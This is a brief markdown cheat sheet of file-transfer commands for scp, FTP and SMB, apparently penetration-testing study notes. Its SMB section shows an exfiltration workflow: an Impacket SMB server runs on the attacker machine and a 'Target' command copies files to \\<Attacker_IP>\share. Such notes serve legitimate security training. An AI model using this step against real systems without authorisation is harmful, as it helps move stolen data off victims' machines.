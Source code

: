 # File Transfers

### SSH
 - `scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2` (`-r` for recersive)
 - copy local file to remote: `scp file.txt remote_username@10.10.0.2:/remote/directory`
 - copy remote file to local: `scp remote_username@10.10.0.2:/remote/file.txt /local/directory`
   
### FTP
 - Upload to server: `put c:\files\file1.txt`
 - Download from server: `get c:\files\file1.txt`
 - Upload multiple files: use `lcd` to traverse kali; then `put *.txt` to put all files to server
 - Downlod multiple files: use `lcd` to traverse kale; then `mget *.txt` to pull all files to server
   
### SMB
 - Follow SMB Client Cheet Sheet
 - Use Impacket-smbserver
1. mkdir smb
2. #Attacker: sudo impacket-smbserver -smb2support share $(pwd)
3. #Target: copy <my_files>.zip \\<Attacker_IP>\share;
4. Clean up smb shares (delete file and close connection)
